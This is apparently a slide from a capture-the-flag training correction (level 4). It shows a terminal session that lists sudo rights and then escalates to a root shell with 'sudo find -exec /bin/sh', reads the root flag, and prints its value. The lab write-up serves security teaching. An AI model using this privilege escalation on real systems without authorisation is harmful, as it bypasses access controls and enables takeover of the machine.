

CORRECTION / Niveau 4

level4@clusir-ceh-20200212:~$ sudo -l
User level4 may run the following commands on clusir-ceh-20200212:
	(root) NOPASSWD: /usr/bin/free
	(root) NOPASSWD: /usr/bin/clear
	(root) NOPASSWD: /usr/bin/find
	(root) NOPASSWD: /bin/ls
	(root) NOPASSWD: /usr/bin/users
	(root) NOPASSWD: /usr/bin/locale
	(root) NOPASSWD: /bin/mkdir
	(root) NOPASSWD: /usr/bin/who
	(root) NOPASSWD: /usr/bin/w
	(root) NOPASSWD: /usr/bin/arch
level4@clusir-ceh-20200212:~$ sudo find -exec /bin/sh \;
# whoami
root
# cat /root/flag
${CLUSIRceh2020|eNsonou}